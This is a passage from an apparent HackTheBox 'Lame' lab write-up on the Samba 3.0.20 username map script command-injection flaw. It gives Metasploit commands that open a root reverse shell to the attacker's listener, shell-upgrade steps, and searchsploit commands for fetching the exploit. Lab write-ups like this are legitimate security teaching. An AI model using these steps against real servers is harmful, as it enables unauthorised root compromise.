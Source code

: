> **Vulnerability Overview:**  
> This flaw allows remote attackers to execute arbitrary shell commands without authentication by specifying a username containing shell metacharacters. It occurs when the `username map script` option is enabled in `smb.conf`.  

### 3.1 Identifying the Exploit

Search on Metasploit for Samba exploit modules:

![msfconsole](GitHubv2/HackTheBox/EASY/Lame/screenshots/msfconsole.png)

![msfconsole_search_samba](GitHubv2/HackTheBox/EASY/Lame/screenshots/msfconsole_search_samba.png)

---
### 3.2 Exploitation with Metasploit

Launch Metasploit and configure the module:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <Your_Tun0_IP>
set LPORT 4444
run
```

![msfconsole_samba_exploitation](GitHubv2/HackTheBox/EASY/Lame/screenshots/msfconsole_samba_exploitation.png)

A reverse shell is obtained **directly as root**.

To upgrade to a fully interactive TTY, execute the following commands:

```bash
script /dev/null -c bash
# Press Ctrl + Z
stty raw -echo; fg
reset xterm
```

![configure_bash](GitHubv2/HackTheBox/EASY/Lame/screenshots/configure_bash.png)

---
### 3.3 Understanding and Manually Exploiting the Samba Vulnerability

For manual exploitation, we download the exploit locally:

```bash
searchsploit "Samba 3.0.20"
searchsploit -m unix/remote/16320.rb
```

![searchsploit_samba_download](GitHubv2/HackTheBox/EASY/Lame/screenshots/searchsploit_samba_download.png)
